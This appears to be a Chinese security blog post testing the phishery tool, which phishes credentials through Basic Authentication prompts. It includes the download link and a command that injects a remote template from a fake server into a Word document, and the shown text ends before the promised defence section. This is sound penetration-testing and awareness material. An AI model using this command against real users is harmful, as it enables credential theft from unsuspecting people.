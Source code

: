 ```yaml
---
layout: post
title: Phishing credentials via Basic Authentication(phishery)利用测试
---
```




## 0x00 前言
---

phishery是一个简单的支持SSL的HTTP服务器，其主要目的是通过基本身份验证钓鱼获得目标的凭据。

本文将要对其进行测试，介绍测试细节，分析实现原理，扩展用法。

phishery地址：

https://github.com/ryhanson/phishery

## 0x01 简介
---

本文将要介绍以下内容：

- phishery实际测试
- 实现原理
- 补充1： 使用openssh制作证书
- 补充2： php实现Basic Authentication
- 防御建议

## 0x02 phishery实际测试
---

测试系统： Win7x64

下载编译好的程序： 

https://github.com/ryhanson/phishery/releases/download/v1.0.2/phishery1.0.2windows-amd64.tar.gz

### 1、生成word文档

```
phishery -u https://secure.site.local/docs -i good.docx -o bad.docx
```

参数说明：

- `https://secure.site.local/docs`作为伪造的web服务器地址，docs为文件名称(该文件必须存在，默认对应文件template.dotx)，目标用户在打开bad.docx时，会显示该域名
- good.docx为输入的word文档，文档为正常内容
- bad.docx为输出的word文档，在good.docx中插入Word document template

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-8-20/2-1.png)
